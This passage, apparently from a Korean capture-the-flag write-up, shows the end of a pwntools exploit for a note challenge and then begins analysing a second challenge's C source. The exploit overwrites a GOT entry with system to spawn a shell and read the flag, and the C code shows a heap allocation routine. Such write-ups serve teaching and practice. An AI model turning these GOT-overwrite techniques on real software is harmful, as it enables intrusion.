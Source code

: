 ```python
    add(3, 0x10, p64(system)*2) # overwrite strlen_evx@got
    show(0,0) # trigger printf("%s", '/bin/sh')

    p.sendline("cat flag.txt")
    print(p.recv(0x100))
    p.interactive()
    return
```
#### h-note
h-babynote 문제를 읽으셨다면 파악할 수 있겠지만 해당 코드에서 delete 기능만 제거됐습니다.

```c
    while (1){
        menu();
        int choice;
        printf(">> ");
        scanf("%d", &choice);
        switch (choice){
            case 1:
                add();
                break;
            case 2:
                edit();
                break;
            case 3:
                show();
                break;
            case 4:
                exit(0);
                break;
            default:
                puts("Invalid choice");
                break;
        }
    }
```
일반적인 노트 문제와 같이 add, edit, show 메뉴가 주어집니다.

```c
void add()
{
    int idx, lines;
    char buf[0x100];
    printf("Page: ");
    scanf("%d", &idx);
    if (idx < 0 || idx >= 20){
        puts("Invalid index");
        return;
    }
    printf("Lines: ");
    scanf("%d", &lines);
    if (lines < 0 || lines > 0x3000){
        puts("Invalid number of lines");
        return;
    }
    pages[idx] = (char*)malloc(lines*0x10ULL);
    printf("Note: ");
    read(0, pages[idx], lines*0x10ULL);
}

```
add 메뉴로 최대 20개까지 [사용자가 입력한 line * 0x10]의 크기로 청크를 할당하고 입력할 수 있습니다.
